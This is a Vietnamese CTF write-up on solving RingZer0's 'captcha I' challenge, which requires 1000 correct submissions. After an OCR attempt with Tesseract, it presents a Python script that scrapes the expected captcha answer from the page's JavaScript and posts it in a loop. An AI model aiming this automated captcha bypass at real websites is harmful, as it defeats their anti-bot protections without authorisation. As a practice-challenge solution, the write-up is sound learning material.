 capcha I
-Có vẻ capcha I->IV đều ở trong trang web này, có điều mục tiêu chính hôm nay thì ta sẽ cùng giải quyết bài capcha I.
-Ta cần phải capcha 1000 lần mới có flag. Mỗi lần capcha sai thì phải ghi lại từ đầu thế nên việc viết capcha bằng tay không là điều dường như không thể(trừ khi mấy ông rảnh)
![image](https://user-images.githubusercontent.com/126310360/222168624-ad987a01-2b9a-4796-afc5-6bdb7f34e175.png)
- Sau một hồi không tìm ra được lỗ hổng trên trang web, mình bắt đầu tìm kiếm trên mạng về cách vượt qua. hmm... Có vẻ phải dùng bot rồi ;V.
- Một số bài tương tự cũng phải viết code để đọc text từ ảnh -> post capcha.
- Tôi có tìm thấy đoạn code py chuyển lấy text từ img.
```
- from PIL import Image
from pytesseract import pytesseract

# Defining paths to tesseract.exe
# and the image we would be using
path_to_tesseract = r"C:\Program Files\Tesseract-OCR\tesseract.exe"
image_path = r"csv\sample_text.png"

# Opening the image & storing it in an image object
img = Image.open(image_path)

# Providing the tesseract executable
# location to pytesseract library
pytesseract.tesseract_cmd = path_to_tesseract

# Passing the image object to image_to_string() function
# This function will extract the text from the image
text = pytesseract.image_to_string(img)

# Displaying the extracted text
print(text[:-1])

```
link file tesseract.exe: https://github.com/UB-Mannheim/tesseract/wiki
Rồi bắt tay vào việc thôi
Mình đã thử nhưng chữ được chữ mất khiến cho phần captcha không hoàn chỉnh
-Sau một hồi tìm tiếm writeup trên mạng cuối cùng cũng thấy 1 đoạn code khả thi và mình đã tối ưu lại.
```
import requests
import time
import re
import os
import lxml.html
from requests.auth import HTTPBasicAuth


def ch138():
    s = requests.Session() #tạo 1 phiên http
    url = 'http://challenges.ringzer0team.com:10138'#đường dẫn
    for _ in range(1001):#vòng lặp để captcha 1000 lần
        time.sleep(0.1)#thời gian nghỉ 0.1 giây trước khi thực thiện đoạn code tiếp theo
        r = s.get('{0}/form1.php'.format(url))#yêu cầu GET đến trang form1.php trên trang web có URL là url.
        m = re.search(r'if \(A == "([a-z0-9]*)"\)', r.text)
        captcha = m.group(1)
        r = s.get('{0}/captcha/captchabroken.php?new'.format(url))
        payload = {'captcha': captcha}
        r = s.post('{0}/captcha1.php'.format(url), data=payload)
        doc = lxml.html.document_fromstring(r.text)
        alert = doc.xpath('//div[contains(@class, "alert")]')[0]
        msg = alert.text_content().strip()
        print(msg)


if __name__ == '__main__':
    ch138()
```    
